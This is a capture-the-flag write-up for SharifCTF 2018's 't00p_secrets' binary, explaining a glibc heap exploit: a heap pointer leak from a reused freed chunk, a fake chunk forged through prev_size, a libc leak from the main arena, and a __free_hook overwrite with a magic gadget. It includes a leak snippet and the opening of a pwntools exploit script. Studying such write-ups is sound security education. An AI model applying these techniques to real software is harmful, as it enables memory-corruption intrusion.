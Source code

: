 An heap leak is needed.

Fortunately when a secret is deleted the heap is not cleared, so we can leak the fd pointer allocating a previous free chunk.

```python
create(2, 24)
create(3, 248)
create(4, 24)
delete(2)
delete(4)
create(4, 24, val="")

heap_leak = "\x20" + print_one(4)[1:8] #fd pointer of the secret 4 points to the secret 2 (0x20 is needed because the last byte is overwritted by newline)
```

The chunck that will be manipulated is the second (secret 3), at address `heap_leak + 24`.

Using edit we set the prev_size of this chunck to the offset between it and the fake chunck.

Calling delete on it will force malloc to use the fake chunck as the next chunck to be allocated (if the size match).

We must change again master_k to set the fake chunck size to 0x100.

Now `malloc(248)` returns the fake chunck address + 16.

OKKKK whe can write on the memory after master_k now! Specifically in `ptr + 0xA`.

But before we need a lib leak.

Just print the new chunck to get an address from the main arena (free has rewritten fd with it).

The last phase is to overwrite the pointer to already created secret content with `__free_hook`, use edit and write the magic gadget address in `__free_hook`, call free and win.

Download the binary [here]({{ site-url }}/assets/sharifctf18/t00p_secrets).
Full exploit code:

```python
#TheRomanXpl0it - andreafioraldi

from pwn import *
import sys

#########################################################
BINARY="./t00p_secrets"
HOST="ctf.sharif.edu"
PORT=22107
ENV={"LD_PRELOAD":"./libc6_2.23-0ubuntu10_amd64.so"}
GDB=""
#########################################################

if len(sys.argv) < 2:
    print "args: bin|net|crash|ida|gdb\n"
    sys.exit(1)

if sys.argv[1] == "bin":
    p = process(BINARY, env=ENV)
elif sys.argv[1] == "net" or sys.argv[1] == "crash":
    p = remote(HOST, PORT)
elif sys.argv[1] == "ida":
    p = process("./linux_server64", env=ENV)
    p.recvuntil("0.1...")
elif sys.argv[1] == "gdb":
    p = process(BINARY, env=ENV)
    gdb.attach(p, GDB)
else:
    print "args: bin|net|crash|ida|gdb\n"
```